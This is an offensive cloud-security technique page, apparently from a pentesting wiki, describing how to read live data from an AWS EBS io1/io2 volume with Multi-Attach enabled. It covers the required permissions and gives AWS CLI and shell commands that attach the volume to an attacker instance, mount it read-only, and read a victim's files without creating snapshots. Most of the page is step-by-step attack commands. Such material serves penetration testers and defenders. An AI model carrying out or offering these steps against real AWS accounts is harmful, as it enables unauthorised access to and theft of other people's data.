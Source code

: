 # AWS - Live Data Theft via EBS Multi-Attach

## Summary
Abuse EBS Multi-Attach to read from a live io1/io2 data volume by attaching the same volume to an attacker-controlled instance in the same Availability Zone (AZ). Mounting the shared volume read-only gives immediate access to in-use files without creating snapshots.

## Requirements
- Target volume: io1 or io2 created with `--multi-attach-enabled` in the same AZ as the attacker instance.
- Permissions: `ec2:AttachVolume`, `ec2:DescribeVolumes`, `ec2:DescribeInstances` on the target volume/instances.
- Infrastructure: Nitro-based instance types that support Multi-Attach (C5/M5/R5 families, etc.).

## Notes
- Mount read-only with `-o ro,noload` to reduce corruption risk and avoid journal replays.
- On Nitro instances the EBS NVMe device exposes a stable `/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_vol...` path (helper below).

## Prepare a Multi-Attach io2 volume and attach to victim

Example (create in `us-east-1a` and attach to the victim):

```bash
AZ=us-east-1a
# Create io2 volume with Multi-Attach enabled
VOL_ID=$(aws ec2 create-volume \
  --size 10 \
  --volume-type io2 \
  --iops 1000 \
  --availability-zone $AZ \
  --multi-attach-enabled \
  --tag-specifications 'ResourceType=volume,Tags=[{Key=Name,Value=multi-shared}]' \
  --query 'VolumeId' --output text)

# Attach to victim instance
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $VICTIM_INSTANCE --device /dev/sdf
```

On the victim, format/mount the new volume and write sensitive data (illustrative):

```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkfs.ext4 -F "$DEV"
sudo mkdir -p /mnt/shared
sudo mount "$DEV" /mnt/shared
echo 'secret-token-ABC123' | sudo tee /mnt/shared/secret.txt
sudo sync
```

## Attach the same volume to the attacker instance

```bash
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $ATTACKER_INSTANCE --device /dev/sdf
```

## Mount read-only on the attacker and read data

```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkdir -p /mnt/steal
sudo mount -o ro,noload "$DEV" /mnt/steal
sudo cat /mnt/steal/secret.txt
```

Expected result: The same `VOL_ID` shows multiple `Attachments` (victim and attacker) and the attacker can read files written by the victim without creating any snapshot.

```bash
aws ec2 describe-volumes --volume-ids $VOL_ID \
  --query 'Volumes[0].Attachments[*].{InstanceId:InstanceId,State:State,Device:Device}'
```

<details>
**Helper: find the NVMe device path by Volume ID**

On Nitro instances, use the stable by-id path that embeds the volume id (drop the dash after `vol`):

```bash
VOLNOHYP="vol${VOL_ID#vol-}"
ls -l /dev/disk/by-id/ | grep "$VOLNOHYP"
# -> nvme-Amazon_Elastic_Block_Store_volXXXXXXXX...
```

</details>

## Impact
- Immediate read access to live data on the target EBS volume without generating snapshots.
- If mounted read-write the attacker can tamper with the victim filesystem (risk of corruption).


